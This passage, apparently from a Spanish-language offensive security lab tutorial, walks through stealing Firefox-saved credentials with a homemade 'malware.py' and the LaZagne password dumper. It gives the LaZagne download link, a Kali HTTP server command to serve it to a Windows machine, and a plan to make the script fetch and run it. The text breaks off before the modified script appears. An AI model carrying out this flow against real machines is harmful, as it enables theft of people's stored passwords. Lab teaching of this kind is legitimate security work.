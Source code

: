 ### Ejecución del script

Para probar si se envía correctamente la información, ejecutamos el script desde el cmd:

```cmd
python malware.py
```

---

# Explotación de Credenciales Guardadas en Firefox

Ahora, vamos a explotar un problema de almacenamiento de credenciales en Firefox.

### Prueba manual de credenciales en Facebook

Ingresamos a Facebook y ponemos cualquier usuario y contraseña. Luego, observamos cómo Firefox nos da la opción de guardar el inicio de sesión. Muchas personas optan por guardar esta información, lo cual puede ser peligroso.

### Herramienta para recuperación de credenciales: **LaZagne**

Vamos a probar **LaZagne**, una herramienta que probablemente será detectada por Windows Defender, pero esto nos ayudará a ver cómo funcionaría una variante más agresiva.

- Descargamos **LaZagne** desde el siguiente repositorio:
    - [LaZagne](https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.6/LaZagne.exe)

Una vez descargada, la movemos a nuestra carpeta **Malware**.

---

# Transferencia y Ejecución de LaZagne en Windows

### Montar un servidor HTTP en Kali Linux

Con el archivo en el directorio de trabajo, montamos un servidor HTTP para transferirlo a la máquina Windows y luego ejecutarlo:

```bash
python3 -m http.server 80
```

### Instalación de la librería `requests` en Windows

```cmd
pip3 install requests
```

### Modificación del script

Modificamos nuestro script para descargar y ejecutar **LaZagne**:
